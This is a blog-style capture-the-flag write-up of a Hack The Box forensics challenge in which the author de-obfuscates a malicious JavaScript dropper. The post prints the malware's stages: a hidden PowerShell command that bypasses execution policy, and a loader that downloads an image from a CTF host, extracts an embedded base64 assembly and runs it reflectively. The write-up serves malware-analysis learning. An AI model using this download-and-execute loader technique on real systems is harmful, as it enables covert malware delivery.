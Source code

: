 ```yaml
---
layout: post
author: pl4int3xt
title: University CTF 2023:Brains and bytes
date: '2023-12-10 19:40:10'
cover: img/cover_images/47.jpg
description: "Hack the box university ctf 2023: Brains and bytes"
categories: [Capture The Flag]
---
```


## Forensics
### One Step Closer
> Tasked with defending the antidote's research, a diverse group of students united against a relentless cyber onslaught. As codes clashed and defenses were tested, their collective effort stood as humanity's beacon, inching closer to safeguarding the research for the cure with every thwarted attack. A stealthy attack might have penetrated their defenses. Along with the Hackster's University students, analyze the provided file so you can detect this attack in the future. 

We are provided with vaccine.js file which is somehow obfuscated, so after analysing the file we come across a url `http://infected.human.htb/d/BKtQR`

```javascript
lOLMCBgGDMolnlotrwOCsILGbKwBtzwvlYFqZdGLMqDxTrcBnpLiTUBqFfekJSDzoSURpLfjiRFSkUbDiScOejegcwcjNbnqGNXuTbtsxWGWvICjWnbUbbSrdUVFqffbkvjTgFhvQddrraBIrYWfNFerCZkSxFapZwPgmIRIyaedLHpBnOvnVBXwzWPxOQJgZModJeUo.open("GET", "http://infected.human.htb/d/BKtQR", false);
```

Let's try to download the file using the docker ip and port 

```shell
http://94.237.57.242:50411/d/BkQR
```

After making the request we get a very huge obfuscated file which is hard to read. So i scrolled until the end and found this powershell code written in reverse. 

```powershell
StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
```

The file was suspicious, hard to read and understand "obviously because it was written by the zombies" i decided to upload it to virus total and see the behaviour.


![img-description](/img/brains-and-bytes/1.png)

Process 4080 reveals the command executed by the file. it is base64 encoded and so we decode it
```powershell
4080 - "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -command '$Codigo = ''Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tYmllcGUem9tYmllcVQByem9tYmllcGwem9tYmllcIe 
...
<SNIP>
...
mllc='';$OWjuxd = [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command $OWjuxD'
```

From the code we can see that em9tYmllc is being replaced with A and so we replace all the instances of em9tYmllc with A to get a clean base64 encoded string "free from any zombie virus"

```powershell
GetString([system.Convert]::Frombase64string($codigo.replace(''em9tYmllc'',''A'')));
```

```shell
JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5A
...
<SNIP>
...
wBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA=
``` 

We then decode the base64 string and discover another powershell script

```powershell
d5dff21b17ee-1f48-5c74-c934-d73c2a63=nekot&aidem=tla?txt.refsnart/o/moc.topsppa.f93c6-gnikcah/b/0v/moc.sipaelgoog.egarotsesaberif//:sptth$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);$startFlag = '<<BASE64_START>>';$endFlag = '<<BASE64_END>>';$startIndex = $imageText.IndexOf($startFlag);$endIndex = $imageText.IndexOf($endFlag);$startIndex -ge 0 -and $endIndex -gt $startIndex;$startIndex += $startFlag.Length;$base64Length = $endIndex - $startIndex;$base64Command = $imageText.Substring($startIndex, $base64Length);$commandBytes = [System.Convert]::FromBase64String($base64Command);$loadedAssembly = [System.Reflection.Assembly]::Load($commandBytes);$type = $loadedAssembly.GetType('Fiber.Home');$method = $type.GetMethod('VAI').Invoke($null, [object[]] ('ZDVkZmYyMWIxN2VlLTFmNDgtNWM3NC1jOTM0LWQ3M2MyYTYzPW5la290JmFpZGVtPXRsYT90eHQucmVmc25hcnQvby9tb2MudG9wc3BwYS5mOTNjNi1nbmlrY2FoL2IvMHYvbW9jLnNpcGFlbGdvb2cuZWdhcm90c2VzYWJlcmlmLy86c3B0dGg=' , 'dfdfd' , 'dfdf' , 'dfdf' , 'dadsa' , 'de' , 'cu')
```

From the script we see that its trying to download an image from this `http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg` url and so we try to get it using our docker ip and port

![img-description](/img/brains-and-bytes/2.png)

Next we use exiftool and find some interesting stuff.

```shell
> exiftool WJveX71agmOQ6Gw_1698762642.jpg
ExifTool Version Number         : 12.70
File Name                       : WJveX71agmOQ6Gw_1698762642.jpg
Directory                       : .
File Size                       : 2.9 MB
File Modification Date/Time     : 2023:12:06 13:51:30+03:00
File Access Date/Time           : 2023:12:10 19:25:29+03:00
File Inode Change Date/Time     : 2023:12:10 19:25:24+03:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
```

2.9 MB i knew something must be hidden in the file so i tried to change the image extension to .png and used zsteg 

```shell
> zsteg img.png
extradata:0         .. text: "<<BASE64_START>>TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAABQRQAA
...
<SNIP>
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAEhUQnswbjNfU3QzcF9jbDBzM3JfdDBfdGgzX2N1cjN9Cg==<<BASE64_END>>\n\n"
```

This was a very large base64 string. I took the string to cyber chef for a nice "zombie recipe"

![img-description](/img/brains-and-bytes/3.png)

We can see `MZ` meaning it is a windows executable file.So i decided to just continue scrolling and boom there's the cure to the zombie virus.

![img-description](/img/brains-and-bytes/4.png)

These zombies really used their BRAINS to BYTE the system.

![yay](/img/brains-and-bytes/joke.gif)

![img-description](/img/cert/HTB2023.png)